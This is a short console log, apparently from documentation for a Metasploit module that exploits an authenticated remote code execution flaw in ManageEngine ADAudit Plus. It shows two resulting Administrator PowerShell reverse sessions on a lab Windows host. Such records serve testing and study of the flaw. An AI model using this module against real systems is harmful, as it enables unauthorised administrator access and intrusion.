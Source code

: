 ```
----                                          
C:\Program Files\ManageEngine\ADAudit Plus\bin


PS C:\Program Files\ManageEngine\ADAudit Plus\bin> ^Z
Background session 2? [y/N]  y
msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > sessions

Active sessions
===============

  Id  Name  Type                Information                      Connection
  --  ----  ----                -----------                      ----------
  1         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.136:53464 (192.168.204.136)
  2         powershell windows  Administrator @ WIN-BRSHGJGIDFM  192.168.204.128:4444 -> 192.168.204.136:53465 (192.168.204.136)

msf exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > 
```

